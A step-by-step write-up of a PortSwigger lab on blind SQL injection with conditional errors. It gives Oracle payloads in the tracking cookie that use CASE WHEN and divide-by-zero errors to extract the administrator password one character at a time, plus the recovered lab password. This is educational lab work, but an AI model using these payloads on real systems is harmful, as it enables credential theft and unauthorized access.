# Blind SQL injection with conditional errors

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

#blind_sql #oracle_database

**NOTE:** SQL CASE





step 1

Since this lab is conditional error
so we have to focus on TrackingId
go to proxy
URL encoded Format
http history
URL encoded Format
select any Request
URL encoded Format
then send to repeater



step 2

add `'` just after TrackingId

```sql
TrackingId=eXEM2vNsn8D3g49m'
```



step 3

add `''`

```sql
TrackingId=eXEM2vNsn8D3g49m''
```



step 4

add `'||(SELECT '')||'`
URL Encoded (CTRL + u ) `'||(SELECT+'')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+'')||'
```

you will get 500 Internal Sever Error it means database don't support such query



step 5

**NOTE:** `From dual` used for `oracle`
add 
`'||(SELECT '' FROM DUAL)||'`
URL encoded Format
`'||(SELECT+''+FROM+DUAL)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+DUAL)||'
```



step 6

find any table which doesn't exist
add 
`'||(SELECT '' FROM any_table)||'`
URL encoded Format
`'||(SELECT+''+FROM+any_table)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+any_table)||'
```



step 7

To verify users table exist send this query

**NOTE:** ROWNUM =1 will prevent to return more than one row otherwise you will get error
add 
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

URL encoded Format
`'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'
```

you will get 200 ok response


step 8

test exploit
**NOTE:** expression contains a divide-by-zero _(1/0)_ , which causes an error

add
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```

Here 1 = 1 is true then 1/0 which create error so you will get Internal Server Error which means exploit work well



step 9

test exploit
`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```

Here 1=2 is false then query become `'||(SELECT '' FROM DUAL)||'` which give 200 response



step 10

test exploit for username administrator
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

Here 1 = 1 is true then 1/0 which create error so you will get Internal Server Error which means exploit work well



step 11

test exploit for Password Length
`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```



step 12

use Intruder to find out length of password
`'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```



payload position,Grep Match and after attack result shows 20 length of password


step 13

test exploit for password first alphabet containing a
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

Here you get 200 ok it means a is not first alphabet password



step 14

use intruder to find out password
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```



here payload 1, payload 2 and Grep Match


final result after attacking


note down each alphabet and digit from payload 2 according to payload 1
like 1 is o and 20 is 6
`o9z230ft5zxkrhh3k3c6`

step 15

To solve the lab enter administrator as username and `o9z230ft5zxkrhh3k3c6` as password


